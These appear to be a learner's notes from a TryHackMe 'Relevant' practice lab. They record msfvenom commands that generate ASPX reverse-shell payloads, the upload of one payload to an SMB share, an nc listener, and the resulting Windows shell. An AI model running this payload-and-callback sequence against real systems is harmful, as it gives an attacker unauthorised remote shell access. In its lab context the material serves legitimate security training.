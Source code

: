 # i think its called RFI exploitation

# 1 = create reverse shell payload using msfvenom:
        # apparently "IIS generally requires an aspx shell", so instead of using the -f exe command I need to use the -f aspx

        # as I was not sure which to use I created 2 payloads:
(kali㉿kali)-[~/THM/practice/relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.59.68 LPORT=9001 -f aspx > reverse1.aspx      2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3414 bytes

(kali㉿kali)-[~/THM/practice/relevant]
└─$ msfvenom -p windows/shell/reverse_tcp LHOST=10.11.59.68 LPORT=9001 -f aspx > reverse.aspx           2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2881 bytes

        # the latter is what I wouldof went with so I tried this first
                # 1 - set up nc listener:
                (kali㉿kali)-[~/THM/practice/relevant]
                └─$ nc -lvnp 9001             
                listening on [any] 9001 ...
                # 2 - put the file up to the smblient share
                smb: \> put reverse.aspx
                putting file reverse.aspx as \reverse.aspx (0.0 kb/s) (average 0.0 kb/s)
                # 3 - curl/direct to the page
                # 4 - hope a shell spawns..
                (kali㉿kali)-[~/THM/practice/relevant]
                └─$ nc -lvnp 9001             
                listening on [any] 9001 ...
                connect to [10.11.59.68] from (UNKNOWN) [10.10.181.98] 49714
                Microsoft Windows [Version 10.0.14393]
                (c) 2016 Microsoft Corporation. All rights reserved.
